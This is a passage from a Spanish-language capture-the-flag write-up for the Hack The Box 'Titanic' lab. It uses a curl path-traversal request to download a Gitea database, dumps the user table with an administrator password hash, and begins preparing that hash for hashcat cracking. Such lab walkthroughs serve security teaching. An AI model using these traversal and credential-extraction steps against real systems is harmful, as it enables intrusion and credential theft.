 ~~~ bash
curl -sX GET 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
~~~


## SQLite Database Analysis

Con la base de datos en nuestra máquina, debemos utilizar `sqlite3` para analizar este archivo. Primeramente listaremos las tablas

~~~ bash
sqlite3 gitea.db                                             
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
...
...
...
label                      upload                   
language_stat              user                     
...
...
~~~

Consultaremos rápidamente la tabla `user` usando una query como argumento, podemos usar formatos para ver la salida, en mi caso la quise ver en formato `json`

~~~ bash
sqlite3 gitea.db 'select * from user' -json | jq

[
  {
    "id": 1,
    "lower_name": "administrator",
    "name": "administrator",
    "full_name": "",
    "email": "root@titanic.htb",
    "keep_email_private": 0,
    "email_notifications_preference": "enabled",
    "passwd": "cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136",
    "passwd_hash_algo": "pbkdf2$50000$50",
    ...
    ...
    ...
~~~


## PBKDF2 Hash Cracking

Según la información de la tabla, podemos ver el algoritmo utilizado, el cual es `pbkdf2`. Es posible convertir este hash a un formato aceptado por `hashcat` con la siguiente estructura

~~~ bash
pbkdf2-sha256:$iterations:$salt:$hash
~~~
